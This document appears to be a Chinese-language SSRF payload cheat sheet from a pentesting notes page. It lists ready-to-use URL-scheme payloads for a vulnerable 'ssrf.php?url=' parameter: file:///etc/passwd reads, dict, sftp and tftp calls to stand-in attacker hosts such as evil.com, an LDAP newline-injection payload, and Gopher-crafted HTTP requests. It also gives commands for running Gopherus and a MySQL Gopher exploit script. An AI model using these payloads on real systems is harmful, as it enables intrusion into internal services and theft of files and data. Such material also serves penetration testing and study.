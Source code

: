 #### file://

```
file:///etc/passwd
```

#### dict://

用于使用 dict 协议的资源读取，常见于redis环境的利用。

```
dict://<user>;<auth>@<host>:<port>/d:<word>:<database>:<n>
ssrf.php?url=dict://attacker:11111/
```

#### SFTP://

```
ssrf.php?url=sftp://evil.com:11111/
```

#### TFTP://

使用UDP方式传输的ftp协议

```
ssrf.php?url=tftp://evil.com:12346/UploadPath
```

#### LDAP://

Lightweight Directory Access Protocol，轻量目录访问协议，主要用于分布式目录服务的访问，一般用于大型应用的用户管理系统。

```
ssrf.php?url=ldap://localhost:11211/%0astats%0aquit
```

#### Gopher://

一种古老但万能的协议！非常有用！ 可以通过该协议，访问几乎任何的TCP服务，当然前提是你知道这种服务的具体数据格式。可以使用 [Gopherus](https://github.com/tarunkant/Gopherus) 这个工具，创建通过 Gopher 协议访问其他服务的payload。 [remote-method-guesser](https://github.com/qtc-de/remote-method-guesser) 则可以创建通过 Gopher 协议发送的 Java RMI 服务payload。 更多的协议可以看抓包数据，自己构造：
https://infosecwriteups.com/how-gopher-works-in-escalating-ssrfs-ce6e5459b630
如何运行这一工具：

> sudo docker pull rickshang/gopherus:latest  
> sudo /usr/bin/alias gopherus='docker run -it --rm --name gopherus rickshang/gopherus:latest'

**Gopher和Mysql**
> git clone https://github.com/FoolMitAh/mysql_gopher_attack
> python exploit.py -u root -p "" -d "db_name" -P "query_statement" -v -c

**Gopher 发送的HTTP数据**

```bash
#For new lines you can use %0A, %0D%0A
gopher://<server>:8080/_GET / HTTP/1.0%0A%0A
gopher://<server>:8080/_POST%20/x%20HTTP/1.0%0ACookie: eatme%0A%0AI+am+a+post+body
```
